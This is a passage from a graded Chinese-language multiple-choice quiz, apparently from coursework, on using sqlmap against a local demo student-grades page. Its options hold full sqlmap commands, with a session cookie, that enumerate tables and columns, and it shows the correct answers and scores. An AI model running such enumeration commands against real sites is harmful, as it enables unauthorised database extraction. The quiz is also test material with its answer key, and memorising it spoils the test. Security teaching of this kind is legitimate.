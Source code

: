   

- B、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf --columns

- C、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 tb_stuinf --columns

- D、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17  --columns

正确答案： B 我的答案：B得分： 12.5分

*4*

使用sqlmap显示数据库demo17中所有表的名称，下面命令正确的是？

- A、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" demo17 --tables

  

- B、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -tables

  

- C、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -T --tables

- D、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 --tables

正确答案： D 我的答案：D得分： 12.5分

*5*

使用sqlmap进行漏洞检测的时候，如果希望程序使用默认值自动应答，可以加

- A、

  --auto

- *B、*[--batch](javascript:void(0))

- C、

  --default

- D、
